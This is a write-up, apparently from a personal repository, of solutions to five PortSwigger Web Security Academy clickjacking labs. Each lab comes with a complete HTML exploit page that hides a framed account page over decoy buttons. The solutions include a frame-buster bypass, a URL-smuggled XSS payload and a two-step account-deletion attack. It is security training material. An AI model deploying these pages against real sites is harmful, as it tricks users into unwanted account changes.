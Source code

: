 # Clickjacking (UI redressing)

Get details at [here](https://portswigger.net/web-security/clickjacking)

---

[Lab 1](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

Description of this lab: login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

We will exploit at my-account page, use this script for exploit server body:

```html
    <html>
        <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 512px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:490px;
            width:148px;
            height: 32px;
            left: 25px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
            click me
        </button>
        <iframe id="target_website" src="https://0a9e00b803f9b564c403699e003600a9.web-security-academy.net/my-account">
        </iframe>
    </body>
    </html>
```

Clicking store then deliver to victim button, and solved the lab.

[Lab 2](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

Using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }

                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe id="target_website" src="https://0adc002b04cbf2d9c0464d1400b70014.web-security-academy.net/my-account?email=test@example.com">
            </iframe>
        </body>
    </html>
```
[Lab 3](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, get around the frame buster and conduct a clickjacking attack that changes the users email address

Using `sandbox="allow-forms"` in script for body part of exploit server for frame buster, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }
                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe sandbox="allow-forms" id="target_website" src="https://0abc007403c75832c048cd1d00620031.web-security-academy.net/my-account?email=target@website.com">
            </iframe>
        </body>
    </html>

```

[Lab 4](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

Description of this lab: XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

We can find the vulnerability in feedback form where users can type anything. Use this script in exploit server and do it like previous lab, then solved the lab.

```html
    <html>
    <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 1024px;
            opacity:0.10001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:798px;
            width:158px;
            height: 32px;
            left: 27px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
        click
        </button>
        <iframe id="target_website" src="https://0aeb002903c405aac09ef522001600ab.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=%22print()%22/%3E&email=target@website.com&subject=blabla&message=blabla">
        </iframe>
    </body>
    </html>
```

[Lab 5](https://portswigger.net/web-security/clickjacking/lab-multistep)

Description of this lab: solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. This lab is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking

Bypass its protection with 2 buttons, using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.10001;
                    z-index:2;
                    }
                #first_decoy_btn {
                    position:absolute;
                    top:490px;
                    width:148px;
                    height: 32px;
                    left: 25px;
                    z-index:1;
                    }
                #second_decoy_btn {
                    position:absolute;
                    top:288px;
                    width:120px;
                    height: 32px;
                    left: 193px;
                    z-index:1;
                    }
            </style>
        </head>

        <body>
            <button id="first_decoy_btn">
                Click me first
            </button>
            <button id="second_decoy_btn">
                Click me next
            </button>
            <iframe id="target_website" src="https://0a6e00b704a9bb4ec04e21e0005000b7.web-security-academy.net/my-account">
            </iframe>
        </body>
    </html>
```
